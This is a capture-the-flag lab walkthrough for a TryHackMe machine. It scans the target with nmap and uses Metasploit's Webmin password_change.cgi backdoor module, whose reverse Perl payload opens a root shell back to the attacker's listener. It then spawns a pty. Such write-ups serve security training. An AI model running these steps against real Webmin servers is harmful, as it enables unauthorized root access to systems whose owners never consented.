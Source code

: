 # THM - Source

#### Ip: 10.10.195.75
#### Name: Source
#### Difficulty: Easy

----------------------------------------------------------------------

![source.png](../assets/source_assets/source.png)

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ sudo nmap -p-  --min-rate 10000 10.10.195.75 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 12:29 CDT
Warning: 10.10.195.75 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.195.75
Host is up (0.26s latency).
Not shown: 62627 closed tcp ports (reset), 2906 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.36 seconds
```

Seeing that Webmin is running and is associated with several vulnerabilities I fire up Metasploit to take a look at which modules may be of interest. 

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ msfconsole -q                                                                            
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
```

The webmin_backdoor seems interesting.

Updating the options to:

![options.png](../assets/source_assets/options.png)

We can then launch the exploit using the `run` command:

```text
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.2.6.181:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (10.2.6.181:4444 -> 10.10.195.75:49722) at 2023-09-19 12:43:27 -0500

whoami
root
hostname
source
python -c 'import pty;pty.spawn("/bin/bash")'


root@source:/usr/share/webmin/#
```

Nice, we caught a shell as root!

All we need to do now is grab our flags:

![user_flag.png](../assets/source_assets/user_flag.png)

![root_flag.png](../assets/source_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------
